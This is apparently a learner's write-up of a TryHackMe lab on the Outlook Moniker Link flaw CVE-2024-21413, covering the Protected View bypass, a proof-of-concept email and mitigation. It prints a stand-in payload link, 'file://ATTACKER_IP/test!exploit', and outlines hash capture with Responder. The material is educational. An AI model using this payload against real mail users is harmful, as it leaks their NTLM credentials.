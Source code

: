 
### **TryHackMe: Cyber Security 101**

**Room:** `Moniker Link (CVE-2024-21413)`  
**Status:** Completed  
**Date:** 2025-08-05

----------

### **Goal**

Understand the Microsoft Outlook Moniker Link vulnerability (CVE-2024-21413), which allows remote attackers to bypass Outlook’s Protected View, enabling NTLM credential leakage and remote code execution through specially crafted Moniker Links.

---------

### **Key Topics Covered**
**1. Overview of the Moniker Link Vulnerability**

-   Microsoft Outlook was found vulnerable to a Remote Code Execution (RCE) and credential leak attack via Moniker Links.
    
-   The vulnerability was publicly disclosed on February 13, 2024, credited to Haifei Li of Check Point Research.
    
-   Attackers can send an email containing a malicious Moniker Link that causes Outlook to leak the user’s NTLM credentials when clicked.
    
-   This exploits Outlook’s ability to render HTML emails and parse various hyperlink schemes including Moniker Links, which open external applications via the Component Object Model (COM) on Windows.
    

----------

**2. Outlook’s Protected View and Bypass**

-   Outlook’s Protected View is designed to block potentially harmful content by opening attachments and links in a read-only mode, disabling macros and other threats.
    
-   Normally, file:// Moniker Links triggering SMB authentication are blocked by Protected View, preventing automatic credential transmission.
    
-   The vulnerability arises by modifying the file:// Moniker Link with a special character `!` and appended text (e.g., `file://ATTACKER_IP/test!exploit`), which bypasses Protected View’s security mechanisms.
    
-   This bypass forces Outlook to initiate an SMB authentication attempt using the victim’s Windows credentials, leaking the netNTLMv2 hash to the attacker.
    
-   The attack does not require the remote share to exist; the authentication attempt itself leaks credential hashes.
    

----------

**3. Practical Demonstration and Proof of Concept (PoC)**

-   The room walks through a hands-on example using a Python script that sends a malicious email containing the crafted Moniker Link.
    
-   The PoC script:
    
    -   Uses SMTP to send an email from an attacker address to a victim address.
        
    -   Embeds the Moniker Link with the special `!` character inside the HTML body.
        
    -   Requires SMTP server login credentials (provided in the lab environment).
        
-   On the attack box, the attacker runs Responder to listen for SMB authentication attempts.
    
-   When the victim opens Outlook and clicks the malicious link, the SMB authentication request is triggered, capturing the victim’s netNTLMv2 hash.
    
-   Packet capture with Wireshark shows the SMB request with a truncated netNTLMv2 hash.
    
-   This demonstrates both credential leakage and the potential for RCE through COM exploitation.
    

----------

**4. Mitigation and Impact**

-   Microsoft has patched the vulnerability in a subsequent Tuesday security update.
    
-   There is no configuration change in Outlook to prevent this attack as it bypasses Protected View itself.
    
-   Blocking the SMB protocol entirely is impractical due to its essential role in network shares and typical Windows operations.
    
-   The vulnerability underscores the importance of cautious handling of email links and attachments.
    

----------

### **What I Learned**

-   The mechanism and risk of Moniker Link exploitation in Microsoft Outlook.
    
-   How Outlook’s Protected View functions and how it can be bypassed.
    
-   The role of SMB authentication and how netNTLMv2 hashes can be leaked remotely.
    
-   The practical steps of sending a crafted malicious email to exploit CVE-2024-21413.
    
-   How to use Responder to capture SMB authentication attempts.
    
-   The importance of timely patching and awareness of new attack vectors in email clients.
    
-   Limitations in mitigating certain client-side vulnerabilities without breaking core functionality.

